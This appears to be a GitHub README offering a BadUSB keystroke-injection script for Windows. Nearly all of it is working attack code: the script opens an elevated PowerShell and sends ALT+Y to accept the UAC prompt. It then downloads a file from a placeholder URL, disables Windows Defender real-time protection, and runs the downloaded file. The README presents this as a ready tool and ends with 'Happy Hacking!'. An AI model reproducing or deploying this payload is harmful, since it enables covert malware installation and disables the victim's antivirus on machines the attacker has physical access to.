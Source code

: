 # badusb-download-execute-disable-windows-defender
This is a Bad USB script which will download and execute any file from the web which is accessible from a direct download link and it will also disable Windows Defender Real Time Protection.

Here is the BadUSB script:
```
DELAY 1000
GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 1000
STRING $down = New-Object System.Net.WebClient; $url = 'URL_GOES_HERE'; $file = 'FILE_NAME_OUTPUT'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; Set-MpPreference -DisableRealtimeMonitoring $true; $exec.shellexecute($file); exit;
ENTER
```

Make sure to change URL_GOES_HERE and FILE_NAME_OUTPUT on the script in order for this to work.
Happy Hacking!
